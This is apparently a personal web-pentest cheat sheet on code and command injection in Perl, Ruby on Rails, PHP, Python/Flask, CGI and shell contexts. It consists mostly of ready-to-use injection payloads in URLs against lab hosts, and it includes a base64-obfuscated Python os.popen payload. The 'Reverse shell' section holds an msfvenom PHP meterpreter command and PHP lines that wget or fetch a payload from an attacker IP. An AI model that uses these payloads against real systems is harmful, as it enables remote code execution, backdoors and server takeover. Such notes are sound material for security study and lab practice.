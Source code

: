 # Web apps frameworks : Code Execution


## PErl
```
# perl -e 'system("ls")'
```

## Sonar risks

https://rules.sonarsource.com/php/RSPEC-3331


## Ruby on rail
### eval

ActiveRecord (Ruby-on-Rails' most common data mapper)
Function eval with param. Add an error with "
````
POST: user[name]=bob&user[password]=pwd&user[admin]=true
@message = eval "\"Hello "+params['username']+"\""
username=hacker”+`uname -a`+” : échapper les + en %2B
http://ptl-f3335912-d8dff103.libcurl.so/?username=hacker%22%2B`uname%20-a`%2B%22
````

## php
### echo, print
Add a .system('ls'). in an echo $GET['name']
````
bob".system('ls')."bob
````
http://ptl-41df0d58-5b5fffd3.libcurl.so/?name=hacker”.system(‘ls’).”bob



### preg_replace()
php can filter thanks to preg_replace(). /e flag can be used.
Use arg in evaluation function
echo preg_replace("/([a-z]*)", "hacker", “you are a lamer’); => you are a hacker
echo preg_replace("/([a-z]*)/e", "hacker", “you are a lamer’); => eval “hacker”, replace hacker by system(‘ls’)
http://ptl-d47b409d-42207d73.libcurl.so/?new=system(‘ls’)&pattern=/lamer/e&base=Hello lamer

Use arg in assert
http://ptl-ac7d180e-5efc435d.libcurl.so/?name=hacker’.system(‘ls’).’ //


### php zend framework
````
?order=id;}//
?order=id);}//
?order=id));}//
Try to find the correct number of ) and }

Then ?order=id);}system('uname%20-a');//
````

### Reverse shell


    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.168.168 LPORT=443 R > revshell.php

    

    <?php echo (`whoami`); ?>
    <?php echo (`ls -l /tmp/`); ?>
    <?php echo `ifconfig`; ?>
    <?php echo `wget -O /upload/directory/payload.php http://192.168.168.168/blackwinter.php`; ?>
    <?php echo shell_exec("fetch -o /upload/directory/payload.php http://192.168.168.168/blackwinter.php"); ?>


## python
### print()
Check with " or '
````
Check :
http://vuln.com/hello/hacker” should generate error

Is python ? hacker”+str(True)+”test
http://vuln.com/hello/hacker"+str(True)+"test

Put code in str()
http://vuln.com/hello/hacker%22%2bstr(os.system('id'))%2b%22test

To get stdout, use os.popen('id').read()
http://vuln.com/hello/hacker%22%2bstr(os.popen('id').read())%2b%22test

If os is not loaded
http://vuln.com/hello/hacker%22%2bstr(__import__('os').popen('id').read())%2b%22test

Flask framework filter / after main path, encode it in base64
uname -a => __import__('base64').b64decode('dW5hbWUgLWE=')

http://ptl-7fc82aee-40987409.libcurl.so/hello/hacker%22%2bstr(__import__('os').popen(__import__('base64').b64decode(%22dW5hbWUgLWE=%22)).read())%2b%22test

Note :
+ %2b
" %22

````

## Apache .htaccess

Upload a crafted .htacess : https://github.com/wireghoul/htshells



## cgi in perl called by jquery
$.getJSON("/cgi-bin/hello?name="+document.location.hash.substring(1), function (data) {
http://ptl-f2dc2643-c482a93d.libcurl.so//cgi-bin/hello?name=bob%27.`uname`.%27


## shell 
### Add a command with ;
thanks to php exec
http://ptl-e178378e-fe879fa4.libcurl.so/?ip=127.0.0.1;ls

### Execute with back quote
````
http://ptl-4938c1df-399c9d4e.libcurl.so/?ip=`cmd`  : no output but cmd executed :)
=> ping -c 2 `cmd`
````

### $(command) to run a shell command.
````
http://ptl-836d9020-8f3b7b55.libcurl.so/?ip=$(touch /tmp/bob)
=> ping -c 2 $(touch /tmp/bob)
````

